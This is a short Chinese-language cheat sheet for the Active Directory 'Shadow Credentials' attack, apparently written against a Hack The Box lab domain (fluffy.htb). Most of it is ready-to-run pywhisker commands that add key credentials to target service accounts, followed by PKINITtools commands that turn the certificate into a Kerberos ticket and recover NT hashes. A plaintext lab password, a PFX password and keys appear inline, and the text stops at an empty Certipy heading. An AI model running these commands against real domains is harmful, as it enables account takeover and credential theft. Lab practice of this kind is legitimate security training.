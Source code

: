 

# Shadow Credentials Attack 

影子凭据攻击需要配合证书传递攻击，具体参考：https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate

## Pywhisker

```bash
python3 pywhisker.py -d "dc01.fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "ca_svc" --action "list"

python3 pywhisker.py -d "dc01.fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action "info" --device-id dddc3174-f2fc-3b5e-7f4a-796a7c81c1ff

python3 pywhisker.py -d "dc01.fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action "remove" --device-id dddc3174-f2fc-3b5e-7f4a-796a7c81c1ff

python3 pywhisker.py -d "dc01.fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action "clear"

# 输出SCAfile.pfx、SCAfile_cert.pem、SCAfile_priv.pem文件和-pfx-pass密码
python3 pywhisker.py -d "dc01.fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "ca_svc" --action "add" --filename ca_svc
```

## PKINITtools

该工具非常依赖python3.5+，但是过高的python版本会导致运行失败，不建议使用！

```bash
# PFX 格式的示例

python3 PKINITtools/gettgtpkinit.py -cert-pfx SCAfile.pfx -pfx-pass 4YWAieAO3VZTLsfGLTAZ fluffy.htb/winrm_svc winrm_svc.ccache

python3 PKINITtools/getnthash.py -key f4d6738897808edd3868fa8c60f147366c41016df623de048d600d4e2f156aa9 fluffy.htb/winrm_svc


# PEM 格式的示例

python3 PKINITtools/gettgtpkinit.py -cert-pem SCAfile_cert.pem -key-pem SCAfile_priv.pem fluffy.htb/winrm_svc winrm_svc.ccache

python3 PKINITtools/getnthash.py -key 894fde81fb7cf87963e4bda9e9e288536a0508a1553f15fdf24731731cecad16 fluffy.htb/winrm_svc
```

## Certipy
